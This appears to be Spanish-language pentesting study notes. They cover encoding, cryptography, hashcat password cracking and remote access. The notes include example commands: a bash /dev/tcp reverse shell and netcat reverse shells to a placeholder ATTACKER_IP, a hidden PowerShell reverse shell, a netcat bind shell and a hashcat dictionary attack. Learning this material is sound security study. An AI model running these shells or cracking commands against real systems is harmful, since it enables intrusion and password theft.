 ## Encoding
- Convertir datos a un formato compatible, reversible, pero no seguro (Ejemplo: Base64).

## Criptografía
- Cifrado bidireccional para proteger datos con una clave.
  - Tipos:
    - Simétrica: Misma clave para cifrar/descifrar.
    - Asimétrica: Clave pública y privada (Ejemplo: RSA).

---

# Cracking de Contraseñas

## Hashcat
- Herramienta avanzada para cracking.
  - Ejemplo básico: `hashcat -m 0 -a 0 hashes.txt rockyou.txt`
  - Modos de ataque:
    - Diccionario.
    - Basados en reglas (variaciones de contraseñas).

---

# Reverse Shells y Acceso Remoto

## Métodos
- **Reverse Shell**: La víctima inicia la conexión hacia el atacante.
- **Bind Shell**: El atacante se conecta al puerto expuesto de la víctima.
- **WebShell**: Scripts maliciosos en servidores web.

### Ejemplos
- **Linux**: `bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1`
- **Windows (PowerShell)**:
`powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.0.1",4444);...`

## Netcat: La Navaja Suiza

Herramienta versátil para conexiones de red.

- Reverse Shell: `nc -e /bin/sh ATTACKER_IP PORT`
- Bind Shell: `nc -lvp PORT -e /bin/bash`
  - Usos:
    - Interactuar con WebShells.
    - Administración remota.
